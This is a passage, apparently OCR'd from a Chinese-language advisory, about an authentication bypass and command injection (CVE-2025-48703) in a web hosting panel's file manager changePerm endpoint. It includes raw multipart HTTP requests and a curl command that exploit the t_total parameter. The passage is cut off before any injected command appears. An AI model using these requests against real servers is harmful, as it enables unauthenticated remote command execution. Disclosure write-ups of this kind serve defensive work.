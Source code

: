 ```
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

------WebKitFormBoundaryrTrcHpS9ovyhBLtb
Content-Disposition: form-data; name=&#34;fileName&#34;

.bashrc
------WebKitFormBoundaryrTrcHpS9ovyhBLtb
Content-Disposition: form-data; name=&#34;currentPath&#34;

/home/myuser/
------WebKitFormBoundaryrTrcHpS9ovyhBLtb
Content-Disposition: form-data; name=&#34;recursive&#34;


------WebKitFormBoundaryrTrcHpS9ovyhBLtb
Content-Disposition: form-data; name=&#34;t_total&#34;

644
------WebKitFormBoundaryrTrcHpS9ovyhBLtb–
```

  
  
攻击者需要知道一个有效的非root用户名（在管理界面创建）。可以使用以下命令生成此请求：  
  

```
$ curl -kis 'https://127.0.0.1:2083/myuser/index.php?module=filemanager&acc=changePerm' --data 'fileName=.bashrc&currentPath=/home/myuser/&t_total=644'
```

  
  
命令执行（CVE-2025-48703）  
  
第二个问题是t_total参数中的命令注入。t_total 参数（在chmod系统命令中用作文件权限模式）似乎未得到适当的清理，允许攻击者注入任意命令。  
  
然后，利用上一个问题，未经身份验证的攻击者可以绕过身份验证过程，并使用以下请求在应用程序中触发命令注入：  
  

```
POST/myuser/index.php?module=filemanager&acc=changePerm HTTP/1.1
Host: 127.0.0.1:2083
Content-Length: 450
Sec-Ch-Ua-Platform: &#34;Linux&#34;
Accept-Language: fr-FR,fr;q=0.9
Accept: application/json, text/plain, */*
Sec-Ch-Ua: &#34;Not.A/Brand&#34;;v=&#34;99&#34;, &#34;Chromium&#34;;v=&#34;136&#34;
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrTrcHpS9ovyhBLtb
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Origin: https://127.0.0.1:2083
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

------WebKitFormBoundaryrTrcHpS9ovyhBLtb
Content-Disposition: form-data; name=&#34;fileName&#34;

.bashrc
```